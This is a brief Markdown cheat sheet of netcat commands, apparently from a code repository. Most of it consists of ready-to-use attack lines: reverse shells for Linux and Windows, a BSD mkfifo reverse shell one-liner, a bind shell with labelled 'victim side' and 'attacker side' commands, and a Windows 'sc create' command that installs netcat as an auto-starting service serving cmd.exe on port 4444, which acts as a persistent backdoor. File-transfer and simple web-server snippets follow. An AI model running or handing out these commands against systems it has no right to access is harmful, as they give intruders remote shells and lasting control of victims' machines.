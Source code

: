 # netcat

## Shell

### reverse shell (for bind shell reverse the commands)

```
listener: nc -nvlp [local port]
client(linux): nc [remote port] -e /bin/bash
client(windows): nc [remote port] -e cmd.exe
```

### reverse shell (BSD version)

```
rm -rf /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 |nc 0.0.0.0 5555 >/tmp/f
```

### bind shell (BSD version)

```
victim side:
mkfifo foo
nc -lk 2600 0<foo | /bin/bash 1>foo

attacker side:
nc [server ip] 2600
```

## File Transfer

### push files from client to listener (and vice versa)

```
listener: nc -nvlp [local port] > [out file]
clinet: nc [ip] [remote port] < [in file]
```

### netcat HTTP server

```
nc -kl 8000 --sh-exec "echo -e 'HTTP/1.1 200 OK\r\n'; date"
```

### serve a single webpage

```
while true; do nc -l -p 80 -q 1 < error.html; done
```

## add netcat as a service in windows

```
sc create NcService binPath= "cmd.exe /c start c:\nc.exe -nLp 4444 -e cmd.exe" start= auto error= ignore

sc start NcService

taskkill /f /im nc.exe
```

